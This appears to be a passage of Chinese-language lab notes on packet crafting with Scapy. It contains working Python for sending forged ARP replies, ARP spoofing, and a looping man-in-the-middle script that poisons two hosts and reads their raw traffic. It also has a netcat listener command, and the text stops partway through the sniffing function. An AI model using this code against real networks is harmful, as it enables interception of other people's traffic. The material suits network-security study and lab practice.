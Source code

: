 ### 4.5 发送ARP报文<br>
```python
from scapy.all import *
#ARP op=is-at` and correctly inform the remote host of where the sender can be found.
arp =ARP(op="is-at",psrc="10.0.0.2",pdst="10.0.0.3")
#arp.show()
ether = Ether()
packet = ether/arp
packet.show()
sendp(packet,iface="eth0")
```

### 4.6 arp欺骗<br>
```python
import scapy
from scapy.all import *
import time

arp =ARP(op="is-at",psrc="10.0.0.2",pdst="10.0.0.4")
#arp.show()
ether=Ether()
ether.dst="ff:ff:ff:ff:ff:ff" # 广播，告诉10.0.0.4，10.0.0.2的mac地址是xxxxx
packet = ether/arp
packet.show()

sendp(packet,iface="eth0") 
```
要想在本地监听到报文，需要:<br>
```
ip addr add 10.0.0.2/24 dev eth0
nc -l 31337
```

### 4.6 tcp中间人流量监听<br>
```python
from scapy.all import *
import threading
import time
import sys
conf.verb= 0
ip1= "10.0.0.3"	
ip2= "10.0.0.4"
def arp_poison(target_ip,spoof_ip):
	arp=ARP(op="is-at",psrc=spoof_ip,pdst=target_ip)
	ether = Ether(dst="ff:ff:ff:ff:ff:ff")
	packet= ether/arp
	# packet.show()
	sendp(packet,iface="eth0")

def arp_spoof():
	while True:
		# print("start poisioning...")
		arp_poison(ip1,ip2)
		arp_poison(ip2,ip1)
		time.sleep(1)

def process_packet(packet):
	if IP in packet:
		ip_src = packet[IP].src
		ip_dst = packet[IP].dst
		if ip_src== ip1 and ip_dst == ip2:
			#print("{ip1} to {ip2}")
			if packet.haslayer(Raw):
				data = packet[Raw].load
```